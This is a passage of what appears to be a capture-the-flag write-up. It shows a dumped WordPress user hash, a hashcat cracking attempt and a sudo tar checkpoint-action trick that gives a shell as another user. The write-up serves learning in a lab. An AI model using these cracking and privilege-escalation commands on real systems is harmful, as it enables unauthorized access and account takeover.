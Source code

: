 ![image](https://user-images.githubusercontent.com/10210108/85181129-2fab3300-b253-11ea-960a-a28a7c1a6ba2.png)

```
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       | wpadmin@test.local |          | 2018-02-09 20:49:26 |                     |           0 | wpadmin      |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+

```

hash-identifier was used to identify the hash: MD5

![image](https://user-images.githubusercontent.com/10210108/85181333-a811f400-b253-11ea-9ad6-8264a837e3ce.png)

I grepped the hashcat help to determine which mode to use - 400 | Wordpress (MD5)

```
hashcat -h | grep -i md5
```

![image](https://user-images.githubusercontent.com/10210108/85181400-d099ee00-b253-11ea-9992-600fe045dc54.png)

Hashcat was run using mode 400, specifying the rockyou wordlist. I was not able to crack the password which lead me to believe this was a rabbit hole so I moved on.

```
hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
```

Running sudo -l as user www-data shows that www-data could run the following commands as user onuma with no password: /bin/tar. 

![image](https://user-images.githubusercontent.com/10210108/85182217-02ac4f80-b256-11ea-9f78-f51d63da9494.png)

Searching for tar on [gtfobins](https://gtfobins.github.io/gtfobins/tar/) shows a command I could use

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![image](https://user-images.githubusercontent.com/10210108/85182247-1b1c6a00-b256-11ea-85d2-5071a8eb3169.png)

Since I could only run commands as user enuma, I had to add "-u onuma" to the comand

```
/usr/bin/sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

I now had shell as onuma
